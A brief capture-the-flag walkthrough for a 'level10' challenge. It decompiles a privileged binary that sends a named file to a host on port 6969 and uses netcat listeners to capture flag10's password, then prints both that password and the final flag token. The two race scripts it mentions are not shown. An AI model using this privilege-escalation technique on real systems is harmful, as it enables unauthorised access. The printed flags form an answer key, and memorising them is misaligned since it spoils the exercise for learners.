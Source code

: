 # level10

```shell
ls -la
```

shows that the level10 executable belongs to flag10 group, privilege escalation should be possible. token is flag10:flag10

performing a simple retdec decompilation, it seems like the executable reads specified file then sends it to specified host on port 6969

```shell
echo test > /tmp/test
```

```shell
nc -l 6969
```

and

```shell
./level10 /tmp/test 127.0.0.1
```

Shows that we can receive the content of specified file with netcat

Just copy the 2 shell programs in /tmp and chmod +x them, then launch both

```shell
nc -klv 6969
```

gives flag10's password:

```shell
woupa2yuojeeaaed06riuj63c
```

```shell
su flag10
```

```shell
getflag
```

gives flag:

```shell
feulo4b72j7edeahuete3no7c
```
